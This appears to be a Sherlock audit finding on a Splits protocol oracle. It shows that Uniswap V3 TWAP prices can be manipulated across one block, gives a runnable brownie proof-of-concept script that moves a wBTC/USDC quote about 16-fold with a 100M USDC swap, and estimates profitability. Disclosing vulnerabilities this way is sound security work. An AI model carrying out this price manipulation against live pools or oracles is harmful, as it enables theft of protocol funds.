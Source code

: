 GalloDaSballo

medium

# Most UniV3 Twaps can be attacked via one block pricing attack

## Summary

Uniswap TWAP provides security for same block manipulation

However, for most pools, it will not provide security against manipulations that can be performed across one block

One block attacks are possible because of:
- Flashbot bundles
- Pre-Known Validators due to Proof of Stake


## Vulnerability Detail

Because we can:
- Perform the last TX of Block N - 1
- Perform the first TX of Block N

Thanks to cross block bundles

We can perform the following attack:
- Attack the pool via an imbalanced Swap on Block N - 1
- Use the manipulated TWAP price at Block N to extract value as well as the caller incentive
- Re-balance the pool to close the attack


The strategy has been researched and shown to be doable here:
https://arxiv.org/abs/2303.04430

This is possible because block validators can be known at the beginning of an epoch in POS

## Impact

TWAP for most pairs will be unsafe because in practice cross-block arbitrages are possible

https://github.com/sherlock-audit/2023-04-splits/blob/main/splits-oracle/src/UniV3OracleImpl.sol#L275-L282

## Code Snippet

The POC shows an example of a Low Liquidity Pool (e.g. wBTC / USDC at 30 BPS)

And shows that even this pool can be manipulated via MMEV

The following POC is written in brownie,

Run on fork mainnet via
`brownie console --network mainnet-fork`


Then paste the python in the terminal


```python
router = UniV3Router.at("0xe592427a0aece92de3edee1f18e0157c05861564")
factory = UniV3Factory.at("0x1F98431c8aD98523631AE4a59f267346ea31F984")

## sLUSD - USDC -> 0.3%

usdc = interface.ERC20("0xa0b86991c6218b36c1d19d4a2e9eb0ce3606eb48")
lusd = interface.ERC20("0x5f98805A4E8be255a32880FDeC7F6728C6568bA0")
wbtc = interface.ERC20("0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599")

BPS_30_POOL = 3000

usdc_lusd_pool = factory.getPool(usdc, lusd, BPS_30_POOL)

## Find a Pool
"""USDC -> LUSD
wBTC -> LUSD"""

## Deposit a shitton to attack

## 30 BPS wBTC USDC Pool
to_attack = factory.getPool(wbtc, usdc, 3000)

c = OracleLibrary.deploy({"from": a[0]})

res = c.consult(to_attack, 15 * 60)

quote = c.getQuoteAtTick(res[0], 1e8, wbtc, usdc)
print("Before Attack time", chain.time())

usdc_whale = accounts.at("0x0A59649758aa4d66E25f08Dd01271e891fe52199", force=True)
ONE_HUNDRED_MLN_USDC = 100 * 10 ** 6 * 10 ** 6

usdc.approve(router, ONE_HUNDRED_MLN_USDC, {"from": usdc_whale})

"""
        address tokenIn;
        address tokenOut;
        uint24 fee;
        address recipient;
        uint256 deadline;
        uint256 amountIn;
        uint256 amountOutMinimum;
        uint160 sqrtPriceLimitX96;

"""

router.exactInputSingle([
  usdc,
  wbtc,
  BPS_30_POOL,
  usdc_whale,
  999999999999999999,
  ONE_HUNDRED_MLN_USDC,
  0,
  0
], {"from": usdc_whale})

res_2 = c.consult(to_attack, 15 * 60)
quote_2 = c.getQuoteAtTick(res_2[0], 1e8, wbtc, usdc)
print("res2 time - no update since TWAP protects same block, this tx will be done as last of the block", chain.time())

chain.sleep(12)
chain.mine()

res_3 = c.consult(to_attack, 15 * 60)

quote_3 = c.getQuoteAtTick(res_3[0], 1e8, wbtc, usdc)
print("res3 time, this tx will be done as first in the block", chain.time())

print("After attacking with 100MLN USDC")
print("Before Attack Tick", res)
print("Before Attack Quote", quote)
print("Same Block Attack Tick - Protected", res_2)
print("Same Block Attack Quote - Protected", quote_2)
print("Next Block")
print("Next Block Attack Tick - Manipulated", res_3)
print("Next Block Attack Quote - Manipulated", quote_3)
print("Ratio between honest quote and manipulated quote" quote / quote_3)
```

The output will look close to this:
```python
res2 time - no update since TWAP protects same block, this tx will be done as last of the block 1682337568
res3 time, this tx will be done as first in the block 1682337580
After attacking with 100MLN USDC
Before Attack Tick (56127, 7689799713075)
Before Attack Quote 27380587878
Same Block Attack Tick - Protected (56127, 7689799713075)
Same Block Attack Quote - Protected 27380587878
Next Block
Next Block Attack Tick - Manipulated (83920, 300833904)
Next Block Attack Quote - Manipulated 440978153194
Ratio between honest quote and manipulated quote 16.10550347417197
```

Proving that the price can be moved on the next block very noticeably

## Tool used

Manual Review

## Recommendation

Limit the usage of TWAP for High Liquidity Pairs (100 MLN+)
Alternatively, use Chainlink Price feeds and limit support to all the tokens that have a feed

## On Severity and profitability

The given example is illustrative of a fairly used pool (USDC and wBTC being top market cap tokens)

This applies to other pools which have less liquidity (e.g. most Protocol Tokens to USDC instead of to ETH)

Napkin math on conditions for profitability are the following:
- The attack above will cost 300k / 600k in swap fees, meaning that at least 600k needs to be at risk

Assuming a caller incentive of 2%, and a Bull Market Swap Fee of $500 
500 / .02 = 25000
600 / 25 = 24

If 24 splits meet the requirement for a profitable swap on Mainnet, then the attack becomes profitable given the conditions above

The attack should be cheaper to perform for lower liquidity pairs, which the architecture allows